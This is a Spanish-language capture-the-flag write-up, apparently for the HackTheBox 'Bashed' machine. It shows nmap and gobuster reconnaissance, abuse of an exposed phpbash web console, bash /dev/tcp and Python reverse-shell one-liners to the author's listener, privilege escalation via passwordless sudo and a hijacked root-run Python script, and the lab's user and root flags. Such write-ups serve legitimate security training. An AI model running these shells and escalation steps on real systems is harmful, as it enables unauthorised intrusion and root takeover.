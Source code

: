 ![[Pasted image 20250705153021.png]](bashed-images/20250705153021.png)

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[20250705135441.png]](bashed-images/20250705135441.png)

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[20250705135536.png]]

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[20250705135627.png]]

>revisamos la web pero a primera vista no hay gran cosa 

![[20250705135759.png]]

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[ 20250705135903.png]]

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[ 20250705135956.png]]

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[ 20250705140110.png]]

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[ 20250705140304.png]]

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[ 20250705140342.png]]

>Hemos encontrado la consola interactiva

## phpbash.php

![[ 20250705140421.png]]

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[20250705140711.png]]

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[20250705140758.png]]

vemos que el paquete se tramita

![[20250705140816.png]]

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[20250705141401.png]]

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[20250705141439.png]]

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[20250705145256.png]]

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[20250705145632.png]]

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[20250705145939.png]]

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[20250705150044.png]]

![[20250705150103.png]]

>investigamos el archivo test.py

![[20250705150140.png]]


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[20250705150402.png]]

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[20250705151139.png]]

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[20250705151252.png]]

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e
